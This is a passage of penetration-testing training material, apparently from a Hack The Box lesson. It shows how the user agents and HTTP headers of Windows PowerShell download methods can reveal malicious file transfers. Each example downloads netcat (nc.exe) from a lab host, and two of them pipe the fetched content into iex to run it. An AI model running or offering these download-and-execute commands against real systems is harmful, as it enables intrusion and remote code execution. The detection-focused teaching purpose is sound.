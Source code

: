 Malicious file transfers can also be detected by their user agents. The following user agents/headers were observed from common HTTP transfer techniques (tested on Windows 10, version 10.0.14393, with PowerShell 5.

Invoke-WebRequest
-----------------

##
PS C:\htb> Invoke-WebRequest http://10.10.10.32/nc.exe -OutFile "C:\Users\Public\nc.exe" 

PS C:\htb> Invoke-RestMethod http://10.10.10.32/nc.exe -OutFile "C:\Users\Public\nc.exe"
##

##
GET /nc.exe HTTP/1.1
User-Agent: Mozilla/5.0 (Windows NT; Windows NT 10.0; en-US) WindowsPowerShell/5.1.14393.0
##

WinHttpRequest
--------------

##
PS C:\htb> $h=new-object -com WinHttp.WinHttpRequest.5.1;

PS C:\htb> $h.open('GET','http://10.10.10.32/nc.exe',$false);

PS C:\htb> $h.send();

PS C:\htb> iex $h.ResponseText
##

##
GET /nc.exe HTTP/1.1
Connection: Keep-Alive
Accept: */*
User-Agent: Mozilla/4.0 (compatible; Win32; WinHttp.WinHttpRequest.5)
##

Msxml2
------

##
PS C:\htb> $h=New-Object -ComObject Msxml2.XMLHTTP;

PS C:\htb> $h.open('GET','http://10.10.10.32/nc.exe',$false);

PS C:\htb> $h.send();

PS C:\htb> iex $h.responseText
##

##
GET /nc.exe HTTP/1.1
Accept: */*
Accept-Language: en-us
UA-CPU: AMD64
Accept-Encoding: gzip, deflate
User-Agent: Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 10.0; Win64; x64; Trident/7.0; .NET4.0C; .NET4.0E)
##
